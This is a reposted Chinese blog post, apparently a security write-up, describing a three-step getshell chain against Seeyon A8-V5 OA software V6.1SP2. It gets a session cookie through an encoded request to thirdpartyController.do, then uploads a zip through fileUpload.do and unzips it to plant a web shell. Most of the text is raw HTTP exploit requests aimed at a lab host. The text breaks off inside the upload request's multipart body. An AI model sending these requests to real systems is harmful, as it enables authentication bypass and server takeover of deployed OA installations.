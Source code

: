 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/cgiWosuzezeMkJZ1VPwVBg)

> 文章作者: Li qun 
> 
> 文章链接: https://www.ailiqun.xyz/2021/04/10/%E8%87%B4%E8%BF%9COA-%E7%BB%84%E5%90%88getshell/ 
> 
> 版权声明: 本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来自 Liqun！  

测试版本为：

致远 A8-V5 协同管理软件 V6.1SP2

### 自行搭建环境：

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTFLHfPb8bEibsj7VDYNMzj0ibqwZbBpN5RE7q2zuibHkKOyVMkOIibYcpyaeOiaJkWaOrkR9obpMGs1VDQ/640?wx_fmt=png)

### Getshell 分三步

```
1.获取cookie信息  
2.上传压缩文件   
3.解压压缩文件得到shell
```

```
/seeyon/thirdpartyController.do
```

漏洞文件

```
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: 192.168.1.88:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 133

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1
```

```
/seeyon/fileUpload.do?method=processUpload&maxSize=
```

```
POST /seeyon/fileUpload.do?method=processUpload&maxSize= HTTP/1.1
Host: 192.168.1.88:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.88:8080/seeyon/fileUpload.do?method=processUpload&maxSize=
Cookie: JSESSIONID=A4D1CCA965228F523B70833968568BE6
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1416682316313
Content-Length: 1179

-----------------------------1416682316313
Content-Disposition: form-data; 
```